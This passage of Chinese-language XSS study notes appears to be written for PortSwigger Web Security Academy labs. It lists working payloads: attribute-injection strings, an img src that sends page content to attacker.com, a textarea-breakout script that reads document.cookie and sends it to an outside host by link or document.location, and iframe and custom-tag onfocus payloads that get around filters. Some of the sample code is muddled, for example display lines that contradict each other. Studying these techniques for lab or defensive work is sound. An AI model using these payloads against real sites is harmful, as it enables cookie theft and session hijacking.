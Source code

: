 ```html
</script>
```

4. DOM方法，通过属性执行脚本

```
"onmouseover="alert(1)
```

5. img标签src="https://www.attacker.com/?通过这样的方式将可能含有隐私信息的部分网页内容发出去

6. XSS注入，读取本地cookie，然后通过a标签link，将数据以get请求的方式发送到攻击者服务器，或是imgsrc

```html
target:<textarea>value</textarea>
value:
使用a标签
</textarea><script>
var cookie=document.cookie;
var a=document.createElement('a');
a.style.display = 'none';	// 隐藏选择的元素
a.style.display = 'block';	// 以块级样式显示
a.onclick="return false;"
a.href="https://www.baidu.com"+cookie;
document.body.appendChild(a);
a.click();

</script><textarea>
  
 也可通过location发送, 效果一样
  document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie
  
 超级隐蔽的XSS攻击
  <a href="https://www.example.com" onclick="return false;">点击这里</a>

```

**针对标签或事件的过滤**

7. 使用XSS cheatsheet得到可以绕过的标签和事件，事件里面写方法，使用恶意主机，结合iframe的方式，发起XSS攻击.    可以绕过CSRFtoken?  当谷歌浏览器的sameSite 设置为strict或是lax的时候，无法绕过

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.web-security-academy.net/?search='%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

8. 自定义自己的标签（如果允许），然后通过onfocus触发，这个语句中自定义了标签xss，然后#x将网页定位到这个地方，自动focus,触发操作        🐮

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
翻译：
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
```
